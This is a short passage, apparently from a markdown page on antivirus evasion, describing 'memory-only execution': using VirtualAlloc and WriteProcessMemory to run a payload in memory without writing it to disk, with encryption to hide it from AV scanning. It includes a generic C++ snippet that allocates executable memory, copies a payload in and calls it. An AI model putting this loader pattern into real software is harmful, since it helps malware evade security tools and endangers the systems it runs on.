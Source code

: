 - Memory-only Execution:
  Use tools like `VirtualAlloc` and `WriteProcessMemory` to load and execute code directly into memory without saving any malicious payloads to disk. This can be combined with encryption to further hide the payload from AV monitoring memory for suspicious content.

  Example:
  ```cpp
  LPVOID exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(exec_mem, payload, payload_len);
  ((void(*)())exec_mem)();  // Execute payload in memory
  ```

